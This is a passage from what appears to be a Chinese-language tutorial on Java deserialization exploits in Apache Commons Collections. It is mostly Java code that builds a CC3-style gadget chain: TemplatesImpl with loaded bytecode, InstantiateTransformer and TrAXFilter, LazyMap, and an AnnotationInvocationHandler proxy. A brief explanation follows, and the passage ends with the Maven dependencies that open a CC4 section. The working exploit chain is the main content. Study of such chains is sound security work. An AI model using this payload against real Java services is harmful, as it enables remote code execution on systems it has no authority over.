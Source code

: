 ```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
                };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);
```

其实就是利用了`InstantiateTransformer`可以执行构造方法拼接了一下后续的动态类加载这样的思路

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d31d371d706e7cab894534b6c563f43fd98a0765.png)

‍

‍

‍

# 0x05 CC4

从CC4开始就要换依赖了

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
    </dependencies>
```
